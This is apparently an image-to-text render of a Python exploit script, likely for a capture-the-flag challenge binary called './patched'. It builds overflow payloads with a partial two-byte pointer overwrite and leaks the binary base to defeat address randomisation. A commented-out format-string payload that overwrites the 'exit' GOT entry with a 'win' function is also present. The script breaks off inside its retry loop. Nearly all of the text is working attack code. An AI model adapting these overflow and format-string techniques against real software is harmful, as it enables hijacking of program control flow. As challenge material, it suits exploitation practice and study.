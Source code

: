 ```python
def check(byt: bytes) -> bytes:
    # io = make_io()
    io = process("./patched")

    buf_size = 0x100

    pb = PayloadBuilder()

    pb.append(byt)
    pb.append_unsize(b"P")
    payload = pb.build(buf_size)
    payload += pack(debug_bin.symbols["text"] + 0x4000)[:2]
    assert len(payload) == buf_size + 2

    edit(io, payload)

    save(io)
    error_chal(io)
    result = io.readuntil(b"Menu")[: -len(b"Menu")]

    return result


def exploit():
    # format_string = FmtStr(execute_fmt=check)
    # print(format_string)

    """
    payload = fmtstr_payload(
        format_string.offset, {binary.got["exit"]: binary.symbols["win"]}
    )
    """
    # format_string.offset == 10

    buf_size = 0x100

    padding_payload_base_pb = PayloadBuilder()
    padding_payload_base_pb.append_unsize(b"P")
    padding_payload_base_pb.append(b"END")
    padding_payload_base = padding_payload_base_pb.build(buf_size)

    while True:
        try:
            # io = make_io()
            # io = process("./patched")
            io = gdb.debug("./patched", exe="./patched_dbg")

            payload = padding_payload_base
            payload += pack(debug_bin.symbols["text"] + 0x4000)[:2]
            assert len(payload) == buf_size + 2

            edit(io, payload)

            error_chal(io)
            edit(io, b"TEST", wait_prompt=False)

            io.readuntil(b"END", timeout=3)
            binary_base = read_pointer_amd64(io) - binary.symbols["text"]
            if binary_base & 0xFFF:
                info("not aligned")
                io.close()
                continue
            success(f"binary_base: {hex(binary_base)}")
```